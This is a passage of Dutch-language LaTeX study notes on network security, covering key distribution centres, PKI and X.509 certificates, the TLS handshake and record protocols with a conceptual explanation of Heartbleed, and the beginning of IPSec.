		\item[\info] \textbf{ECDH}: Elliptic curve Diffie-Helman.
		\item[\info] \textbf{Fixed Diffie-Hellman}: De publieke sleutels worden getekend door een CA.
		\item[\info] \textbf{Anonieme Diffie-Hellman}: Normale Diffie-Hellman.
		\item[\info] \textbf{Ephemeral Diffie-Hellman}: Publieke sleutels zijn nu tijdelijk, zodat ze enkel maar gelden voor één enkele sessie. Op die manier is er perfect forward privacy. 
	\end{itemize}

	\subsection{Sleuteldistributiecentrum}
	Het sleuteldistributiecentrum vermijdt dat gebruikers zelf de sleutel moeten overhandigen. Elke gebruiker heeft een private sleutel die kan gebruikt worden om met het \textbf{KDC (Key Distribution Centre)} te communiceren. Er zijn twee soorten sleutels: de sessiesleutels zijn een tijdelijke sleutel die gebruikt worden voor één enkele sessie. Deze sessiesleutel wordt gebruikt om informatie te encrypteren tussen verschillende gebruikers. De ander sleutel is de mastersleutel. Deze wordt gebruikt om sessiesleutels te encrypteren en wordt gedeeld tussen een gebruiker en de KDC. De basiswerking van de KDC (figuur \ref{fig:basiswerkingKDC}) is als volgt:
	\begin{enumerate}
		\item Alice vraagt aan de KDC om een verbinding op te zetten met Bob. Alice stuurt ook een "nonce" $N_1$. Dit is een willekeurig getal dat slechts éénmaal gebruikt wordt om replay aanvallen te voorkomen.
		\item De KDC geeft volgende informatie terug, dat geëncrypteerd wordt door Alice haar sleutel $K_{A-KDC}$: De sessiesleutel, de identiteit van Bob, dezelfde nonce dat Alice stuurde naar de KDC, en geëncrypteerde informatie (met Bob zijn sleutel $K_{B-KDC}$).
		\item Alice verstuurt de geëncrypteerde informatie naar Bob.
		\item Bob antwoordt met een tweede nonce $N_2$, geëncrypteerd met de sessiesleutel, zodat Bob geauthenticeerd is naar Alice toe.
		\item Alice antwoordt terug naar Bob met een bewerkte nonce (een bepaalde functie, bv 1 toevoegen), geëncrypteerd met de sessiesleutel, zodat Alice geauthenticeerd is naar Bob toe.
	\end{enumerate}
	\begin{figure}
		\centering
		
\begin{tikzpicture}
			\node (A) [rectangle, draw=black] at (0, 0) {Alice};
			\node (K) [rectangle, draw=black] at (10, 0) {KDC};
			\node (B) [rectangle, draw=black] at (0, -5) {Bob};

			\draw[->] ([yshift=3pt] A.east) -- node[yshift=7pt]{1) $ID_A || ID_B || N_1$} ([yshift=3pt]  K.west);
			\draw[<-] ([yshift=-3pt] A.east) -- node[yshift=-7pt]{2) $E_{K_{A-KDC}}[K_s || ID_B || N_1 || E_{K_{B-KDC}}(K_s || ID_A) ]$} ([yshift=-3pt]  K.west);

			\draw[->] ([xshift=6pt] A.south) --  node[xshift=68pt, yshift=20pt]{3) $E_{K_{B-KDC}}(K_s || ID_a)$} ([xshift=6pt]  B.north);
			\draw[<-] ([xshift=0pt] A.south) -- node[xshift=49pt, yshift=0pt]{4) $E_{K_{S}}[N_2]$}([xshift=0pt]  B.north);
			\draw[->] ([xshift=-6pt] A.south) -- node[xshift=62pt, yshift=-20pt]{5) $E_{K_{S}}[f(N_2)]$}([xshift=-6pt]  B.north);
		\end{tikzpicture}
		\caption{Basiswerking KDC.}
		\label{fig:basiswerkingKDC}
	\end{figure}
	Een aanvaller kan, indien hij $K_s$ bemachtigd, stap 3 herhalen, zodat de aanvaller nu Bob zijn response kan beantwoorden. Bob is dan aan het praten met de aanvaller, terwijl hij denkt dat het Alice is.
	Een beter algoritme:
	\begin{enumerate}
		\item Alice informeert Bob dat ze wil communiceren.
		\item Bob antwoordt met een geëncrypteerde nonce $N_2$.
		\item Alice vraagt aan de KDC om communicatie te starten met Bob. Alice verstuurt een andere nonce $N_1$, samen met de geëncrypteerde nonce $N_2$.
		\item De KDC beantwoordt dit met een geëncrypteerd bericht, gebruikmakend van Alice haar sleutel $E_{K_{A-KDC}}$ (De KDC authenticeerd zich op die manier naar Alice toe, en bereikt confidentialiteit). De inhoud van dit is: de sessiesleutel, Bob zijn identiteit, $N_1$, en een geëncrypteerd bericht met de sessiesleutel, $N_2$ en Alice haar identiteit.
		\item Alice verstuurt de sessiesleutel, $N_2$ en haar eigen identiteit geëncrypteerd met de sleutel van Bob naar Bob toe.
		\item Bob antwoordt met een tweede nonce $N_2$, geëncrypteerd met de sessiesleutel, zodat Bob geauthenticeerd is naar Alice toe.
		\item Alice antwoordt terug naar Bob met een bewerkte nonce (een bepaalde functie, bv 1 toevoegen), geëncrypteerd met de sessiesleutel, zodat Alice geauthenticeerd is naar Bob toe.
	\end{enumerate}
	\begin{figure}
		\centering
		
\begin{tikzpicture}
			\node (A) [rectangle, draw=black] at (0, 0) {Alice};
			\node (K) [rectangle, draw=black] at (10, 0) {KDC};
			\node (B) [rectangle, draw=black] at (0, -5) {Bob};

			\draw[->] ([yshift=3pt] A.east) -- node[yshift=7pt]{3) $ID_A || ID_B || N_1 || E_{K_{B-KDC}}(ID_A || N_2)$} ([yshift=3pt]  K.west);
			\draw[<-] ([yshift=-3pt] A.east) -- node[yshift=-7pt]{4) $E_{K_{A-KDC}}[K_s || ID_B || N_1 || E_{K_{B-KDC}}(K_s || N_2 || ID_A) ]$} ([yshift=-3pt]  K.west);

			\draw[->] ([xshift=12pt] A.south)  --  node[xshift=20pt, yshift=40pt]{1) $ID_A$} ([xshift=12pt]  B.north);
			\draw[<-] ([xshift=6pt] A.south)   --  node[xshift=60pt, yshift=20pt]{2) $E_{K_{B-KDC}}(ID_A || N_2)$} ([xshift=6pt]  B.north);
			\draw[->] ([xshift=0pt] A.south)   --  node[xshift=76pt, yshift=0pt]{5) $E_{K_{B-KDC}}(K_S || ID_A || N_2)$} ([xshift=0pt]  B.north);
			\draw[<-] ([xshift=-6pt] A.south)  --  node[xshift=47pt, yshift=-20pt]{6) $E_{K_{S}}[N_2]$} ([xshift=-6pt]  B.north);
			\draw[->] ([xshift=-12pt] A.south) --  node[xshift=60pt, yshift=-40pt]{7) $E_{K_{S}}[f(N_2)]$} ([xshift=-12pt]  B.north);
		\end{tikzpicture}
		\caption{Verbeterde werking KDC.}
		\label{fig:beterewerkingKDC}
	\end{figure}
	\subsection{Public key infrastructure}
	Vier manieren om publieke sleutels uit te wisselen:
	\begin{enumerate}
		\item \textbf{Public Announcement}: Publieke sleutels worden gebroadcast naar een heel domein, of verstuurd naar specifieke gebruikers. Het nadeel hiervan is dat aanvallers zich kunnen voordoen als iemand anders.
		\item \textbf{Public directory}: Alle publieke sleutels bevinden zich in een database in de vorm van $\langle$ naam, publieke sleutel $\rangle$ paren. Gebruikers die hun publieke sleutel op deze directory willen zetten, moeten zich eerst authenticeren. De beheerder van de directory moet een vertrouwd entiteit zijn.
		\item \textbf{Public key authority}: Het sleutelbeheer wordt overgelaten aan een betrouwbare externe organisatie. Dit is gelijkaardig aan het sleuteluitwisselingscentrum.
		\item \textbf{Public key infrastructure}: (dit hoofdstuk)
	\end{enumerate}

	\begin{itemize}
		\item[\info] PKI = sleutels op een betrouwbare manier uitwisselen, gebruik makend van certificaten.
		\item[\info] Een certificaat verbindt een identiteit met een publieke sleutel, waarvan de inhoud getekend wordt door een Certificate Authority (CA).
		\item[\info] Alice verstuurd haar certificaat naar Bob. Bob kan dit certificaat controleren door gebruik te maken van de publieke sleutel van de CA die dit getekend heeft.
	\end{itemize}

	\underline{Drie} rollen bij PKI:
	\begin{enumerate}
		\item Certificate Authority: Tekent en geeft certificaten op basis van de publieke sleutel en de identiteit van de aanvrager. Er zijn verschillende providers zoals: VeriSign, Equifax, PGP (web of trust), ...
		\item Registration Authority: Het doel is om minder werk te geven aan de CA. De RA moet de entiteiten die een certificaataanvraag doen authenticeren.
		\item Validation Authority: De VA kan op basis van een entiteit, de attributen er uit halen die hem uniek identificeren. Op deze manier is de workload van de CA nog minder.
	\end{enumerate}

	Er blijft nog de vraag: \underline{Wie kunnen we vertrouwen?} 5 implementaties:
	\begin{itemize}
		\item[\info] \textbf{CA Hiërarchy}: De publieke sleutels van Alice en Bob kunnen door een CA getekend worden, waarvan de publieke sleutel door een hoger gelegen CA getekend werd, ...
		\item[\info] \textbf{Web model}: Elke browser en operatingsysteem komt met een lijst van erkende root-certificaten. Het is dan ook hun taak om een nieuw certificaat te controleren, op basis van de CA hiërarchy.
		\item[\info] \textbf{User-centrisch} (PGP): Elke gebruiker is zijn eigen root CA. Stel dat Alice en Bob elkaar vertrouwen, en dat nu Charlie met Alice wilt praten. Alice kent Charlie niet, maar Bob wel. Charlie vraagt aan Bob om zijn publieke sleutel te tekenen met Bob zijn private sleutel. Alice kan dit nu controleren, en door transitieve eigenschap, kent Alice nu ook Charlie. Op die manier wordt er een netwerk opgebouwd, maar is dus enkel handig wanneer veel mensen collaboreren.	
		\item[\info] \textbf{Cross-certification}: \todo{dunno, lijkt me niet zo belangrijk ook}
	\end{itemize}

	Soms moet een certificaat teruggetrokken worden:
	\begin{itemize}
		\item[\info] Certificate Revocation List (CRL) mechanisme: Er wordt een lijst bijgehouden met certificaatidentifiers die teruggetrokken zijn. Bij het verifiëren van een certificaat wordt deze lijst overlopen en indien de identifier er in zit, wordt het certificaat niet goedgekeurd. \underline{Twee nadelen zijn}:
		\begin{enumerate}
			\item[\alert] De lijst kan heel lang worden, en de hele lijst moet altijd opgehaald worden.
			\item[\alert] Er bestaat geen mechanisme dat een notificate stuurt wanneer een certificaat teruggetrokken wordt. Resultaten die gecached werden kunnen soms dus gebruikt worden, ook al zijn ze in werkelijkheid al teruggetrokken.
		\end{enumerate}
		\item[\info] Online Certificate Status Protocol: Deze uitbreiding op CRL laat toe om enkel de status van één enkel certificaat op te vragen, zodat real-time validatie mogelijk is. Ook hier zijn er \underline{vier nadelen}:
		\begin{itemize}
			\item[\alert] De CA moet een massa van real-time queries kunnen behandelen.
			\item[\alert] De CA moet ervoor zorgen dat de service altijd bereikbaar is.
			\item[\alert] Deze query is synchroon, zodat de cliënt moet wachten op een antwoord.
			\item[\alert] Real-time requests kan de privacy van een gebruiker negeren, omdat da CA nu weet welke website bezocht wordt. 
		\end{itemize}

	\end{itemize}

	\subsection{X.509 authentication}
	= een gestandariseerd formaat voor certificaten.
	\begin{itemize}
		\item[\info] Wordt gebruikt door veel protocollen: TLS, PGP, IPsec, HTTPS, ...
		\item[\info] Moet aangekocht worden (bestaat ook gratis alternatief: Lets Encrypt!) van een CA. Je kan ook zelf een eigen certificaatservice opstellen, en deze laten tekenen door een erkende CA.
		\item[\info] Formaat van een X.509 certificaat op figuur \ref{fig:x509_certificaat}. 
		\begin{figure}[ht]
			\centering
			
\includegraphics[width=0.7\textwidth]{x509_certificaat}
			\caption{De structuur van een X.509 certificaat.}
			\label{fig:x509_certificaat}
		\end{figure}
	\end{itemize}

	\subsubsection{V3 extensions}
	\underline{Drie categorieën}:
	\begin{itemize}
		\item[\info] \textbf{Informatie over de sleutel en beveiligingspolicy}: Deze extensie bevat meer informatie over waar het certificaat gebruikt mag worden en de levensduur van een private sleutel
		\item[\info] \textbf{Attributen van de subject en issuer}: Er kunnen extra attributen zoals het mailadres van de subject of IPsec gerelateerde attributen bijgehouden worden.
		\item[\info] \textbf{Padconstraints}: Voorkomen dat een gebruiker zich zelf als een CA kan voordoen, de lengte van de het certificaatpad kan beperkt worden en men kan voorkomen dat een CA buiten zijn domein ook certificaten kan tekenen.
	\end{itemize}

	\subsubsection{Beperkingen X.509 certificaten}
	\begin{itemize}
		\item[\alert] X.509 is heel vaag in veel gebieden. Dit heeft als resultaat dat niemand nog te wachten staat op verbeteringen van deze standaard. 
		\item[\alert] Het terugtrekken van certificaten gebeurd niet altijd zoals het moet; Er zit vaak een grote delay op het effectief terugtrekken van een certificaat, en het publiek maken van deze terugtrekking. 
		\item[\alert] Authenticatie-en confidentialiteitscertificaten worden op dezelfde manier behandeld.
		\item[\alert] Constant toevoegen van attributen zorgt ervoor dat er teveel overhead onstaat.
		\item[\alert] Veel software is incompatibel met X.509 door bugs, foute extensies, verschillende interpretaties, ...
		\item[\alert] Certificaten zijn gebaseerd op identiteiten, terwijl dit vaak onbelangrijk is. Een identiteit kan namelijk veranderen (email, paswoord, woonplaats, ...).
		\item[\alert] Te veel attributen opnemen in een certificaat zorgt voor een toeneming van het heraanvragen van certificaten. Een enkel attribuut veranderen, slects 1 bit, leidt tot een heraanvraag van het certificaat. 
	\end{itemize}

	\subsection{Testvragen}



	\section{Beveiligen van netwerkprotocollen}
	\subsection{Beveiligen van de transportlaag}
	Het belangrijkste protocol is \textbf{TLS (Transport Layer Security)}. Dit is de opvolger van SSL, zodat TLS dus ook alle features heeft van de laatste SSL versie. Hedendaags wordt enkel nog TLS gebruikt.


	In eerste instantie kan SSL/TLS vergeleken worden met SSH, aangezien SSH ook de transportlaag beveiligd. De \underline{verschillen} tussen \underline{SSH} en \underline{SSL/TLS } zijn:
	\begin{itemize}
		\item SSL/TLS  is ontworpen om generiek verkeer over de transportlaag te beveiligen.
		\item SSH bevat ook nog multiplexing, user authenticatie en terminal management. 
		\item SSL gebruikt X.509 certificaten, SSH gebruikt een eigen formaat.
		\item Verschillende optimalisaties: SSH voor shell applicaties en TLS voor betere performantie bij https.
	\end{itemize}

	Verder wordt enkel nog TLS behandelt, SSL kan gegenegeerd worden.

	De \underline{verschillen} tussen \underline{SSH} en \underline{TLS} zijn:
	\begin{itemize}
		\item \textbf{TLS server authenticatie is optioneel.} 
			\begin{itemize}
				\item Anonieme operaties zijn toegelaten.
				\item Hierdoor is een man-in-the-middle attack een zeer eenvoudige aanval.
				\item Server authenticatie in SSH is verplicht.
			\end{itemize}
		\item \textbf{TLS heeft geen user authenticatie.}
			\begin{itemize}
				\item TLS moet enkel de twee interfaces authenticeren (SSH kan dit ook).
				\item User authentication wordt behandeld door een bovenliggende laag.
			\end{itemize}
		\item \textbf{TLS gebruikt X.509 public-key certificaten om te authenticeren.}
			\begin{itemize}
				\item SSH heeft een eigen certificaatformaat.
				\item Vereist een werkend PKI systeem.
				\item Een voordeel van een PKI systeem is dat het schaalbaar is op vlak van sleutelbeheer, iets wat SSH nog niet kan. 
			\end{itemize}
		\item \textbf{TLS kent enkel public-key authenticatie}
			\begin{itemize}
				\item SSH heeft ook nog host-based, password, ...
			\end{itemize}
		\item \textbf{TLS heeft niet de extra features die het SSH connection protocol wel heeft} 
	\end{itemize}

	\subsubsection{Architectuur}
	\accentuate{(elk belangrijk item staat in het vet en is onderlijnd)}
	\begin{itemize}
	\item Een \underline{\textbf{TLS connectie}} is een communicatiekanaal tussen een cliënt en een server. Deze connecties zijn vaak van korte levensduur en servers zullen een connectie zelf vernietigen na een bepaalde tijdsduur indien de connectie te lang op idle modus staat.

	\item Een \underline{\textbf{TLS sessie}} wordt gebruikt om de server een bepaalde staat te geven. De connectie kan gesloten worden, maar kan een sessie behouden. Deze sessie kan dan verdergezet worden met een nieuwe connectie. Een sessie wordt op zowel de client als de server bewaart. Er kan ook een nieuwe sessie aangemaakt worden tijdens een connectie. Een sessie wordt gedefinieerd aan de hand van een aantal parameters:
	\begin{itemize}
		\item De sessieidentifier, een random byte sequentie, gegenereerd door de server.
		\item De optionele X.509 certificaten.
		\item De optionele compressiemethode.
		\item De \emph{master secret}, een gedeelde sleutel van 48 bytes die gekend is door de cliënt en de server.
		\item Een bit \emph{is resumable}, die aangeeft of dat de sessie kan gebruikt worden om nieuwe connecties aan te maken.
	\end{itemize}
	Figuur \ref{fig:two-layer_architecture_TLS} toont aan dat TLS gebruik maakt van een tweelagen architectuur met 
	\begin{enumerate}
		\item het \underline{TLS record layer protocol} en, 
		\item het \underline{TLS-specifieke protocollen}: TLS Handshake protocol, TLS Change Cipher Protocol en TLS Alert Protocol.
	\end{enumerate}
	\begin{figure}[ht]
		
\includegraphics[width=\textwidth]{tls_architecture}
		\caption{Tweelagen architectuur van TLS}
		\label{fig:two-layer_architecture_TLS}
	\end{figure}

	\item Het \underline{\textbf{Handshake protocol}} laat toe om de cliënt en server te authenticeren aan elkaar. Een HP bericht heeft de volgende structuur:
	\begin{itemize}
		\item 1 byte voor de berichtsoort (10 typen gedefinieerd).
		\item 3 bytes voor de berichtgrootte.
		\item variabel aantal bytes voor de eigenlijke informatie, soms zelfs leeg.
	\end{itemize}
	
	Het handshake protocol verloopt in \underline{4} fasen (ook gedemonstreerd op figuur \ref{fig:tls_handshake_protocol}):
	\begin{figure}[ht]
		
\includegraphics[width=\textwidth]{tls_handshake_protocol}
		\caption{TLS Handshake Protocol}
		\label{fig:tls_handshake_protocol}
	\end{figure}
	\begin{enumerate}
		\item Eerst moet een TCP sessie aangemaakt worden via het normale TCP process: SYN $\rightarrow$ SYN-ACK $\rightarrow$ ACK.
		\item Daarna verstuurt de cliënt een \textbf{client\_hello} bericht naar de server met volgende parameters:
			\begin{itemize}
				\item \textbf{Version}: De hoogste TLS versie waarover de cliënt beschikt.
				\item \textbf{Random}: Een timestamp (32 bits) en 28 bytes gegenereerd door een veilige randomgenerator, dat gebruikt wordt als nonce.
				\item \textbf{SessionID}: Een identifier dat gebruikt wordt om de sessie te identificeren. Wordt onder andere gebruikt om een sessie verder te zetten met een andere connectie.
				\item \textbf{CipherSuite}: Een lijst van combinaties van cryptografische algoritmen die de cliënt ondersteunt. Een combinatie bestaat uit een sleuteluitwisselingsmethode, de encryptiespecificatie, de MAC functie en de pseudorandomfunctie dat gebruikt wordt.
				\item \textbf{CompressionMethod}: Een lijst van compressiemthoden waarover de cliënt beschikt.
			\end{itemize}
			De server reageert met een \textbf{server\_hello} bericht die dezelfde structuur bevat als de client\_hello variant. De server neemt uiteraard de versie en cryptografische algoritmen dat hijzelf ook ondersteund.
		\item Indien authenticatie vereist is, stuurt de server een X.509 certificaat naar de cliënt. \textbf{Optioneel} zal de server ook een certificaat vragen aan de cliënt, indien authenticatie vereist is. De server eindigt met een \textbf{server\_done} bericht. De cliënt antwoordt dan indien nodig met zijn certificaat. De cliënt stuurt ook een \textbf{client\_key\_exchange} bericht, met de nodige informatie om een sessiesleutel te genereren. 
		\item De cliënt verstuurt nu een \textbf{change\_cipher\_spec} bericht (met het Change Cipher Protocol), die de juiste combinatie van cryptografische algoritmen bevat. Tot slot stuurt de cliënt een \textbf{finished} bericht. De server verstuurt dezelfde berichten naar de cliënt. Nu zijn de cliënt en server in staat om te communiceren met elkaar via het SSL Record protocol.
	\end{enumerate}


	\item Het \underline{\textbf{Change Cipher protocol}} kan slechts één bericht verstaan: 1 byte met 1 waarde. Het zorgt ervoor dat de tijdelijke keuze van cryptografische algoritmen de werkelijke keuze wordt. Het kan ook gebruikt worden om de encryptiealgoritmen te veranderen gedurende een connectie.

	\item Het \underline{\textbf{Alert protocol}} bevat berichten met foutmeldingen en waarchuwingen. Een bericht bestaat enerzijds uit één byte, die "fatal" of "warning" aangeeft, en een andere byte die meer uitleg geeft over de fout. 
	
	Mogelijke waarschuwingen:
	\begin{itemize}
		\item Problemen met certificaten.
		\item De connectie wordt verbroken door één van de partijen.
	\end{itemize}
	Mogelijke fouten:
	\begin{itemize}
		\item Problemen met het decompresseren.
		\item Een fout tijdens het handshake protocol (geen geldige beveiligingsparameters gevonden).
		\item Fout ingevulde parameters tijdens het handshake protocol.
	\end{itemize}
	\item Het \underline{\textbf{Record protocol}} is een gelaagd protocol dat informatie zo zal bewerken dat: het bruikbare blokken worden van ten hoogste $2^{14}$ bytes, optioneel de informatie zal compresseren, een MAC zal toevoegen voor integriteit, de informatie zal encrypteren en het resultaat doorsturen. Ontvangen informatie wordt dan in omgekeerde volgorde bewerkt. De typische workflow gaat als volgt (figuur \ref{fig:tls_record_protocol}):
		\begin{figure}[ht]
			
\includegraphics[width=\textwidth]{tls_record_protocol}
			\caption{Werking van het TLS record protocol.}
			\label{fig:tls_record_protocol}
		\end{figure}
		\begin{enumerate}
			\item De informatie wordt verdeeld in fragmenten van hoogstens $2^{14}$ bytes ($\equiv 16$ KB).
			\item De informatie wordt eventueel gecompresseerd. De compressie is optioneel, moet terugkeerbaar zijn, en mag de lengte van de informatie niet meer dan $1024$ bytes vergroten.
			\item De MAC wordt als volgt berekend: MAC($K_{MAC} || Seq \# || Type || Length || Data$).
			\item De informatie wordt geëncrypteerd met een \underline{symmetrisch encryptiealgoritme}.
			\item De TLS record header wordt toegevoegd. 
		\end{enumerate}
	Het \underline{verschil} met \underline{SSH}:
		\begin{itemize}
			\item SSH zal eerst encrypteren, en dan pas de MAC toevoegen. Geen van beide methoden is beter dan de andere, en komt met zijn eigen problemen.
		\end{itemize}
	De TLS record header heeft volgende structuur (figuur \ref{fig:tls_record_header}):
	\begin{figure}[ht]
		
\includegraphics[width=\textwidth]{tls_record_header}
		\caption{De TLS record header.}
		\label{fig:tls_record_header}
	\end{figure}
	\begin{itemize}
		\item 1 byte voor het contenttype. Dit is het applicatielaagprotocol dat gebruikt wordt.
		\item 2 bytes voor de versie (voor TLS 1.2 heeft dit de waarden 3 en 3).
		\item Lengte van de informatie.
	\end{itemize}

	\item De \underline{\textbf{master secret}}, die nodig is bij een TLS sessie, wordt ofwel gegenereerd door de cliënt, geëncrypteerd met RSA en verzonden naar de server, ofwel uitgewisseld met Diffie-Helman. De grootte van de sleutel bedraagt 384 bits. Sleutels kunnen niet hergebruikt worden aangezien ze afhankelijk zijn van de nonces die gebruikt werden tijdens het handshake protocol.
	\item Het \underline{\textbf{Heartbeat protocol}} draait bovenop het record protocol en heeft voornamelijk als doel om huidige connecties te testen, en om ze in leven te houden zonder dat er opnieuw moet onderhandeld worden tussen de cliënt en de server. Het protocol ondersteund twee berichten:
		\begin{itemize}
			\item \textbf{HeartbeatRequest}: De cliënt of server verstuurt naar de ander een bericht met daarin een payload (typisch een string) en de lengte van de payload. 
			\item \textbf{HeartbeatResponse}: Een ontvanger van een HeartbeatRequest moet antwoorden met dezelfde payload als een HeartbeatResponse.
		\end{itemize}
	Ontstaan van \underline{Heartbleed bug}. De server controleerde niet of de lengte van de payload werkelijk de lengte was. Zo kon een aanvaller een payload met werkelijke lengte 5 hebben, maar de payload lengte zelf instellen op 500, zodat er 495 extra bytes teruggestuurd worden vanuit het geheugen van de server, vaak met gevoelige informatie.
\end{itemize}

	\subsubsection{Performantie}
	TLS wisselt \underline{minder berichten uit dan SSH} en \underline{authenticeerd het entiteit volledig over de transportlaag}. 

	TLS geeft wel meer overhead op vlak van latency. Het aantal uitwisselingen tussen de cliënt en server is vrij groot. Initieël moet de TCP connectie opgesteld worden (3 uitwisselingen), gevolgd door 4 uitwisselingen via het handshake protocol.

	\underline{Hoe TLS performanter maken?}
	\begin{itemize}
		\item \textbf{Sessie voortzetten}: Als de cliënt al eerder met de server heeft gecommuniceerd, kunnen de vorige parameterwaarden gebruikt worden, zodat het aantal uitwisselingen met 2 daalt (de changecipherspec voor zowel server als cliënt).
		\item \textbf{Valse start}: De cliënt of server zullen al informatie versturen vooraleer het handshake protocol voltooid is, meer specifiek: nadat de ChangeCipherSpec en Finished berichten verstuurt zijn, maar zonder te wachten op de andere kant op dezelfde berichten. Vanaf dat de cliënt de algoritmen kent, kan hij zijn informatie al encrypteren. Deze methode vergt minimale aanpassing aan het TLS algoritme, namelijk wanneer de berichten mogen verstuurd worden.
		\item \textbf{Proxies}: In het geval dat de geografische afstand tussen cliënt en server te groot is, kunnen er proxyservers geïnstalleerd worden, die dichter bij de cliënt zitten. 
		\item \textbf{Pakketgrootte}: Alle informatie via TLS wordt verpakt via het record protocol. In het begin van een TLS verbinding is het beter om de fragmentgrootte kleiner te maken dan de default 16 kb, zodat de verbindingen sneller kan gelegt worden.
		\item \textbf{Certificaatketting}: Stuur niet enkel eigen certificaat maar ook het certificaat van diegene dat het getekend heeft. Dit bespaart een DNS lookup.
	\end{itemize}

	\subsection{Beveiligen van de netwerklaag}
	= \underline{gebruik van IPSec}

	Mogelijke bedreigingen op de netwerklaag:
	\begin{itemize}
		\item IP-adres kan gewijzigt worden (source spoofing).
		\item Vervalste routeinformatie kan verzonden worden.
	\end{itemize}
	Dit resulteert dat er geen data-integriteit of confidentialiteit is.

	IPSec is een \underline{applicatieonafhankelijk} protocol dat \underline{veilige IP verbindingen legt}. 

	\underline{Voordelen} van IPSec:
	\begin{itemize}
		\item Aangezien dat IPSec applicatieonafhankelijk is, moeten applicaties zelf geen beveiliging op netwerklaag voorzien.
